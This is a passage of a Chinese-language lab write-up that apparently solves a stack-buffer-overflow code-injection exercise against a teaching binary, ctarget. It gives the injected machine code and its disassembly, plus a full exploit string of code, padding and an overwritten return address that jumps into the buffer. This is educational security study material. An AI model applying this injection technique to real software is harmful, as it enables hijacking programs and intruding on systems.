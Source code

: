    反汇编成字节流：`68 fa 97 b9 59 5f 68 ec 17 40 00 c3`。

   ![](.\assets\20210406_1.png) 

   ```assembly
   assem.o:     file format elf64-x86-64
   
   
   Disassembly of section .text:
   
   0000000000000000 <.text>:
      0:   68 fa 97 b9 59          pushq  $0x59b997fa
      5:   5f                      pop    %rdi
      6:   68 ec 17 40 00          pushq  $0x4017ec
      b:   c3                      retq
   ```

   

3. 我们将 gadget 放置在 `buf` 的开头位置（`&buf = $rsp = 0x5561dc78`），填满 `0x28` 个 `padding`，在放置 `return address` 的位置存放 `buf` 的地址（`0x5561dc78`）**（马后炮：在 64 位系统中，注入的地址 `0x5561dc7` 应该占 8 位，但这里只占了 4 位，之所以可以成功是因为后面的四位都是 `\x00`）**，让程序流跳转到我们编写的 gadget。

   <img src=".\assets\20210405_6.png" style="zoom:67%;" /> 

   ![](.\assets\20210406_2.png) 

   ```
   ctarget.txt
   68 fa 97 b9 59 5f 68 ec 17 40 00 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 dc 61 55
   ```
